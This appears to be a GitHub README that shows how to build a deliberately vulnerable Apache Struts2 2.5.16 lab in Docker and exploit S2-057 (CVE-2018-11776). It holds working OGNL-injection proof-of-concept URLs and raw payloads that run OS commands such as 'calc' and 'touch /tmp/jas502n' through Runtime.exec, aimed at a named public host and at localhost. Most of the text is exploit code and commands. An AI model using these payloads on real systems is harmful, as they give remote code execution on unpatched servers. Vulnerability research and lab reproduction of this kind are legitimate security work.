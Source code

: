 # St2-057 Online Docking Environment, Enjoy!


# 0x01 Setting up the environment docker

https://github.com/vulhub/vulhub/tree/master/struts2/s2-048

```
docker-compose up -d
```

# 0x02 Build a st2-057 vulnerability environment

```
docker exec -i -t 88fd8d560155 /bin/bash
```
Start in the background and enter docker

![](./docker-struts-048.jpg)


According to the announcement
https://struts.apache.org/releases.html

```
Release	Release Date	Vulnerability	Version Notes
Struts 2.5.16	16 March 2018	S2-057	Version notes
Struts 2.5.14.1	30 November 2017	Version notes
Struts 2.5.14	23 November 2017	S2-055, S2-054	Version notes
```
![](./in-st2-57.jpg)
There is a s2-057 vulnerability in Struts 2.5.16, then download this version.

https://fossies.org/linux/www/legacy/struts-2.5.16-all.zip/


```
apt-get update -y
mkdir /usr/local/tomcat/webapps/test
wget https://fossies.org/linux/www/legacy/struts-2.5.16-all.zip
apt-get install unzip -y
cp struts2-showcase.war /usr/local/tomcat/webapps/

```
![](./wget-st2-057.jpg)

# 0x03 Modifying the configuration file

First find the file struts-actionchaining.xml, and found that there are 2 need to modify
```
root@88fd8d560155:/usr/local/tomcat/webapps/test# locate struts-actionchaining.xml
/usr/local/tomcat/webapps/struts2-showcase/WEB-INF/classes/struts-actionchaining.xml
/usr/local/tomcat/webapps/struts2-showcase/WEB-INF/src/java/struts-actionchaining.xml
/usr/local/tomcat/webapps/test/struts-2.5.16/src/apps/showcase/src/main/resources/struts-actionchaining.xml
root@88fd8d560155:/usr/local/tomcat/webapps/test# 

```
Profile modification - reference link:
https://lgtm.com/blog/apache_struts_CVE-2018-11776

Change to the following:

```
<struts>
    <package name="actionchaining" extends="struts-default">
        <action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.actionchain1">
           <result type="redirectAction">
             <param name = "actionName">register2</param>
           </result>
        </action>
    </package>
</struts>
```
![](./struts-actionchaining.jpg)

Then go to the bin directory, kill the process, because the configuration file is modified, so you need to restart the service.
```
root@88fd8d560155:/usr/local/tomcat/bin# cd /usr/local/tomcat/bin/
root@88fd8d560155:/usr/local/tomcat/bin# ls
bootstrap.jar	    catalina.sh			  commons-daemon.jar  daemon.sh  setclasspath.sh  startup.sh	   tool-wrapper.sh
catalina-tasks.xml  commons-daemon-native.tar.gz  configtest.sh       digest.sh  shutdown.sh	  tomcat-juli.jar  version.sh
root@88fd8d560155:/usr/local/tomcat/bin# ./shutdown.sh 

```
![](./down.jpg)

# 0x04 Restart the service, st2-057 is completed.
```
 ✘ ⚡ root@HK  ~/vulhub/struts2/s2-048   master ●  docker-compose up -d
Starting s2-048_struts2_1 ... done
 ⚡ root@HK  ~/vulhub/struts2/s2-048   master ●  
```
![](./start.jpg)
# 0x05 Verify st2-057
Docker target::http://www.canyouseeme.cc:8080/Struts2-showcase/

Command execution:http://www.canyouseeme.cc:8080/struts2-showcase/${(111+111)}/actionchain1.action

${(111+111)}

Get the execution result returned in the url::http://www.canyouseeme.cc:8080/Struts2-showcase/222/register2.action

![](./st2-57.jpg)

#### Ps: ${(111+111)} can be replaced with the previous poc, such as S2-032

http://www.canyouseeme.cc:8080/struts2-showcase/%24%7b(%23_memberAccess%5b%22allowStaticMethodAccess%22%5d%3dtrue%2c%23a%3d%40java.lang.Runtime%40getRuntime().exec(%27calc%27).getInputStream()%2c%23b%3dnew+java.io.InputStreamReader(%23a)%2c%23c%3dnew++java.io.BufferedReader(%23b)%2c%23d%3dnew+char%5b51020%5d%2c%23c.read(%23d)%2c%23jas502n%3d+%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2c%23jas502n.println(%23d+)%2c%23jas502n.close())%7d/actionChain1.action

![](./calc.jpg)

poc-example:
```
${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('calc').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new  java.io.BufferedReader(#b),#d=new char[51020],#c.read(#d),#jas502n= @org.apache.struts2.ServletActionContext@getResponse().getWriter(),#jas502n.println(#d ),#jas502n.close())}
```
Split
```
${
(
#_memberAccess["allowStaticMethodAccess"]=true,
#a=@java.lang.Runtime@getRuntime().exec('calc').getInputStream(),
#b=new java.io.InputStreamReader(#a),
#c=new java.io.BufferedReader(#b),
#d=new char[51020],
#c.read(#d),
#jas502n= @org.apache.struts2.ServletActionContext@getResponse().getWriter(),
#jas502n.println(#d),
#jas502n.close())
}
```
# 0x06 Use the old version of the bomb calculator or command to execute
(Vulnerability environment: struts-2.2.3.1-all.zip)
download link: http://archive.apache.org/dist/struts/binaries/struts-2.2.3.1-all.zip

![](./struts-2.2.3.1.jpg)

Ps: The pit is a low version capable of playing the calculator, the high version cannot

Windows:

```
http://127.0.0.1:8080/struts3-showcase/%24%7b(%23_memberAccess%5b%22allowStaticMethodAccess%22%5d%3dtrue%2c%23a%3d%40java.lang.Runtime%40getRuntime().exec('calc').getInputStream()%2c%23b%3dnew%20java.io.InputStreamReader(%23a)%2c%23c%3dnew %20java.io.BufferedReader(%23b)%2c%23d%3dnew%20char%5b51020%5d%2c%23c.read(%23d)%2c%23sbtest%3d%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2c%23sbtest.println(%23d)%2c%23sbtest.close())%7d/actionChain1.action
```
![](./windows.png)

Linux:

```
http://www.canyouseeme.cc/struts3-showcase/%24%7B%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%27touch /tmp/jas502n%27%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B51020%5D%2C%23c.read%28%23d%29%2C%23sbtest%3D@org.apache.struts2.ServletActionContext@getResponse%28%29.getWriter%28%29%2C%23sbtest.println%28%23d%29%2C%23sbtest.close%28%29%29%7D/actionChain1.action
```
![](./linux.png)

# 0x07 Reference link

```
https://github.com/vulhub/vulhub/tree/master/struts2/s2-048
https://lgtm.com/blog/apache_struts_CVE-2018-11776
https://cwiki.apache.org/confluence/display/WW/S2-057
https://www.anquanke.com/post/id/157518
```


